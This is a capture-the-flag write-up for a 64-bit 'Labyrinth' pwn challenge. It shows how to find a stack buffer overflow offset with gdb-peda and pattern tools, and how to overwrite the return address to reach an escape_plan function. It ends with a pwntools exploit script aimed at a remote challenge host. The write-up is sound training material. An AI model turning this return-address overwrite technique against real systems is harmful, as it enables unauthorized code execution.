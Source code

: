 # [Pwn - easy] Labyrinth

In collaboration with [Pierre Vigier](https://pierre-vigier.github.io/)

A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.

![ghidra](./img/pwn_labyrinth_1.png)

At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.

![escape_plan](./img/pwn_labyrinth_2.png)

The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` 
function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed and be on 8 octets: for instance here 
`\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), provides us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```

![escape_plan](./img/pwn_labyrinth_3.png)

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
# print(lol)
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!

![flag](./img/pwn_labyrinth_4.png)
